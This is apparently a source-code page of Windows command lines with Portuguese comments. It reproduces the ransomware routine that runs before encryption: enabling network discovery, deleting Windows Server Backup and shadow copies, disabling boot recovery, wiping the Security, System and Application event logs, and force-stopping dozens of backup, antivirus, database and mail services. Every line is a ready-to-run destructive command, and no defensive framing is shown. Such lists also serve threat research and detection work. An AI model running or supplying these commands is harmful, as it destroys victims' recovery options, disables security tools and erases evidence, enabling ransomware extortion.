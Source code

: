 #Utilizado para ativar a regra do Firewall que permite a descoberta de rede. 
"netsh.exe" advfirewall firewall set rule "group=”Network Discovery”" new enable=Yes

#Usado para excluir todas as cópias de backup do estado do sistema no Windows Server Backup, mantendo zero versões.
"wbadmin.exe" delete systemstatebackup -keepVersions:0 -quiet

#Utilizado para excluir uma cópia de backup do estado do sistema Windows Server Backup.
"wbadmin.exe" DELETE SYSTEMSTATEBACKUP

#Utilizado para excluir a cópia mais antiga do backup do sistema no Windows Server Backup. 
"wbadmin.exe" DELETE SYSTEMSTATEBACKUP -deleteOldest

#Utilizado para manipular a configuração do Boot Configuration Data (BDC) no Windows, desabilita a recuperação do sistema no menu de inicialização do Windows. 
"bcdedit.exe" /set {default} recoveryenabled No

#Utilizado para configurar a política de inicialização do Windows para ignorar todas as falhas. 
"bcdedit.exe" /set {default} bootstatuspolicy ignoreallfailures

#Utilizado o wevutil para limpezar dos logs Security, System e Application.
"cmd.exe" /c wevtutil cl security
"cmd.exe" /c wevtutil cl system
"cmd.exe" /c wevtutil cl application

#Comando utilizado para interrupção de serviços de rede, o parâmetro /y é para não solicitar confirmação do usuário. 
"net" stop /y vmcomp
"net" stop /y vmwp
"net" stop /y veeam
"net" stop /y Back
"net" stop /y xchange
"net" stop /y backup
"net" stop /y Backup
"net" stop /y acronis
"net" stop /y AcronisAgent
"net" stop /y AcrSch2Svc
"net" stop /y sql
"net" stop /y Enterprise
"net" stop /y Veeam
"net" stop /y VeeamTransportSvc
"net" stop /y VeeamNFSSvc
"net" stop /y AcrSch
"net" stop /y bedbg
"net" stop /y DCAgent
"net" stop /y EPSecurity
"net" stop /y EPUpdate
"net" stop /y Eraser
"net" stop /y EsgShKernel
"net" stop /y FA_Scheduler
"net" stop /y IISAdmin
"net" stop /y IMAP4
"net" stop /y MBAM
"net" stop /y Endpoint
"net" stop /y Afee
"net" stop /y McShield
"net" stop /y task
"net" stop /y mfemms
"net" stop /y mfevtp
"net" stop /y mms
"net" stop /y MsDts
"net" stop /y Exchange
"net" stop /y ntrt
"net" stop /y PDVF
"net" stop /y POP3
"net" stop /y Report
"net" stop /y RESvc
"net" stop /y Monitor
"net" stop /y Smcinst
"net" stop /y SmcService
"net" stop /y SMTP
"net" stop /y SNAC
"net" stop /y swi_
"net" stop /y CCSF
"net" stop /y ccEvtMgr
"net" stop /y ccSetMgr
"net" stop /y TrueKey
"net" stop /y tmlisten
"net" stop /y UIODetect
"net" stop /y W3S
"net" stop /y WRSVC
"net" stop /y NetMsmq
"net" stop /y ekrn
"net" stop /y EhttpSrv
"net" stop /y ESHASRV
"net" stop /y AVP
"net" stop /y klnagent
"net" stop /y wbengine
"net" stop /y KAVF
"net" stop /y mfefire
"net" stop /y svc$
"net" stop /y memtas
"net" stop /y mepocs
"net" stop /y GxVss
"net" stop /y GxCVD
"net" stop /y GxBlr
"net" stop /y GxFWD
"net" stop /y GxCIMgr
"net" stop /y BackupExecVSSProvider
"net" stop /y BackupExecManagementService
"net" stop /y BackupExecJobEngine
"net" stop /y BackupExecDiveciMediaService
"net" stop /y BackupExecAgentBrowser
"net" stop /y BackupExecAgentAccelerator
"net" stop /y vss
"net" stop /y BacupExecRPCService
"net" stop /y CASAD2WebSvc
"net" stop /y CAARCUpdateSvc
"net" stop /y YooBackup
"net" stop /y YooIT

#Excluir todas as cópias de sombra (shadow copies) armazenadas pelo serviço VSS
vssadmin.exe delete shadows /all /quiet

#Utilizado para todas as cópias de sombra do sistema usando o WMIC. 
"wmic.exe" SHADOWCOPY DELETE /nointeractive
